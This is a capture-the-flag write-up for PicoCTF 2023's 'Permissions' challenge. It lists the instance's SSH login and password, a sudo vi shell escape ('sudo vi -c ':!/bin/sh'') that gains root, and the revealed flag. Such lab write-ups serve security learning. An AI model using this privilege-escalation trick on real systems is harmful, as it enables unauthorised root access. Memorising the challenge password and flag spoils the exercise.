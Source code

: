 # PicoCTF2023 - Permissions Writeup

Challenge Name: Permissions

Challenge Description: Can you read files in the root file?

## Steps Taken

1. SSH into the instance with the following command:
   ```
   ssh -p 64649 picoplayer@saturn.picoctf.net
   ```
   And entered the password: `dLAqMvm7xv`.

2. Used `ls` command to see what files would be listed in my current directory, which was blank.

3. Used `sudo -l` command which gave the following output:
   ```
   Matching Defaults entries for picoplayer on challenge:
       env_reset, mail_badpass,
       secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
   
   User picoplayer may run the following commands on challenge:
       (ALL) /usr/bin/vi
   ```
4. Tried the command `sudo vi -c ':!/bin/sh'` to get root access.

5. Typed the command `id` which returned the following:
   ```
   uid=0(root) gid=0(root) groups=0(root)
   ```

6. Typed the command `whoami` which returned `root`.

7. Used `ls -a` command which returned the following output:
   ```
   .  ..  .bash_logout  .bashrc  .cache  .profile
   ```

8. Typed `cd ..` command to go back one directory.

9. Used `ls` command which returned `picoplayer`.

10. Typed `cd ..` command again to go back one more directory.

11. Used `ls` command which returned the following output:
    ```
    bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
    boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
    ```

12. Typed `cd root` command to enter the `root` directory.

13. Typed `ls` command which showed nothing.

14. Typed `ls -a` command which returned the following output:
    ```
    .  ..  .bashrc  .flag.txt  .profile
    ```

15. Typed `cat .flag.txt` command which returned the flag:
    ```
    picoCTF{uS1ng_v1m_3dit0r_021d10ab}
    ```
